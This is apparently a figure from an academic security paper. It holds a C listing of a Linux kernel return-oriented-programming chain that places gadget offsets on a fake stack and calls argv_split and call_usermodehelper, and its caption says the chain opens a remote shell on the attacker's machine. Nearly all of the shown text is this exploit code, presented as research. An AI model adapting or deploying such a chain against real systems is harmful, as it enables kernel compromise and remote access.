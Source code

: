 \begin{figure}[b]
\begin{lstlisting}[
        basicstyle = \footnotesize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
// stack
page[0xF68] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0xF70] = &ATTACK_PAGE[0x400];
page[0xF78] = KERNEL_BASE + 0x12dacd; // pop rdi; ret
page[0xF80] = 0;
page[0xF88] = KERNEL_BASE + 0x11bac2; // pop rdx ; ret
page[0xF90] = 0;
page[0xF98] = KERNEL_BASE + 0x3a00d0; // &argv_split
page[0xFA0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFA8] = &ATTACK_PAGE[0x500];
page[0xFB0] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0xFB8] = KERNEL_BASE + 0x5822a2; // mov rax, qword ptr [rax] ; ret
page[0xFC0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFC8] = &ATTACK_PAGE[0x508];
page[0xFD0] = KERNEL_BASE + 0x1319ee;// push rax; jmp qword ptr[rcx]
page[0xFD8] = KERNEL_BASE + 0x005dfc;// pop rcx ; ret
page[0xFE0] = 0;
page[0xFE8] = KERNEL_BASE + 0x0896a0; // &call_usermodehelper
page[0xFF0] = KERNEL_BASE + 0x4c0f0e; // xor rax, rax ; ret
page[0xFF8] = KERNEL_BASE + 0x003795; // leave ; ret
        \end{lstlisting}
        \caption{
                ROP attack to open a remote shell on the attacker's machine. The pivoting code uses \texttt{rdi} register, which points to the page, providing \means{}.}
        \label{fig:shellcode_2}
\end{figure}







